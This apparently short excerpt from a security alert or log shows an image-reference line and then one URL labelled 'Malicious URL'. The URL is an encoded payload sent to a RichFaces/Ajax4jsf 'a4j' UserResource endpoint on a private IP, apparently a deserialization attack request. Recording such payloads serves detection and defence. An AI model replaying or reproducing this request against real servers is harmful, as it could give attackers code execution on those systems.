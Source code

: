 

Malicious URL:

http://10.104.110.235:8080/photoalbum/a4j/s/3_3_3.Finalorg.ajax4jsf.resource.UserResource/n/n/DATA/eAHdVk1rE0EYnsSvtn5VW9QqwrqKpiqzTY0HjQFBRYVUoan1oweZbN4kE2c!OjPbLEpFD14UBBFv3ry2F!0DCh5U8OJRETwoIiKIIN7EmdnY2IAevLW5ZGfm2ed953mfd2ZnvqBlgqPdAa9h0iBxriGqmIMIIu4CPiOAj7YGO85wepRIgvSvb!!nNFpaRKtdDkTCkcCX4EuJ1hcbZIo4jPg153S5Aa7MF9EKiEOqOCfRVZQqoi4vqNAqhUprvGyKsAjMIA5VLjs1RYyrxAWB3cALA19x45JUgU4ErAK8RKaAn3!xqHD3!suRNEoXUbfLiBCniAfzcyhJTv2ayqFHqHcqhkOiDUmWNHBKwClh9DIpM8jHoQ6!S4XEIvJNAgykwMDwGKmNgKwHlWNxqHYiaOAbHRBKrUIo5mggSVpBO3EPnRe33v!I3U4bXN8crs304MbN0rcLrw5phM7ggC4Gp249kSCimIQhoy6RKmyiQ2eQs1xBgOPMvesHZ0Y!GE36y0RAUoR2LIk2m83HDjBnXAvfXlMyLQ8JN4Xc0kZ1xsrHulZdKlFLJ9ooB8Jo1MF20gvZgdnpnnN35a5Eo01ze--ANnuuTbx7!POOFkBzdzffosfbr3CYjEBIXAN5RJc3Mzj3WAyI8oGaYOohWbQ1O9bOw6ORL6kHtsEn6WdsxdKep!5UcAkyfsTYIIYY3IztVixHemHeaiqkVZcyPOg42SGcHcrhrPof3pdzRB0YU36o5i23rmxs7Ymt9hxur9uD0!-wRBjGSr1t89TrVFnLV!668fvKJ-tGtHxG8-bTRaALijjqmzD-SsrVatLZV-MfP229cty0gequtET9pqY0wKcjGUZSAYF4EvW2S534Wwl6WbXi2tRqZ65vHA8qlCQvOhATpScIpxFCrWSecVyXHrMOD-0dsg5ns8PZXMGed5oVFroD7dgcuUvMofqXU62jE!881LTjeg3D2uZr9Gyhq2FBcguhNcY9kaQMq!sMWt5Zmer-P-!U1cVysRr5BbsVYBH5RltgoGWBN-j5grfA7y-Pv3igK7X8!zzQiIQs2L!ZF4EBJOrSvh5T1-8vyyZzSw__.jsf

